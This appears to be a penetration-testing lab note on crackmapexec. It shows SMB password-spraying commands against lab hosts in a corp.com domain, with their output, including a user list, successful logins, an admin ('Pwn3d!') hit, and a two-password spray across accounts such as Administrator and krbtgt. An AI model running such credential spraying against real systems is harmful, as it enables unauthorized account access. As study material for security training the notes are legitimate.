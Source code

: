 ### crackmapexec

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!

```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com                       
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)


```
{% endcode %}

{% code title="crackmapexec with multiple passwors" lineNumbers="true" %}
```
crackmapexec smb 192.168.184.73 -u users.txt -p 'BrouhahaTungPerorateBroom2023!' 'HomeTaping199!' -d corp.com --continue-on-success
SMB         192.168.184.73  445    FILES04          [*] Windows Server 2022 Build 20348 x64 (name:FILES04) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.184.73  445    FILES04          [-] corp.com\Administrator:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\Administrator:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\iis_service:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\iis_service:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\jen:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\jen:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\pete:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\pete:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\dave:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\dave:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\jeff:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\jeff:HomeTaping199! STATUS_LOGON_FAILURE 
SMB         192.168.184.73  445    FILES04          [-] corp.com\krbtgt:BrouhahaTungPerorateBroom2023! STATUS_LOGON_FAILURE 
```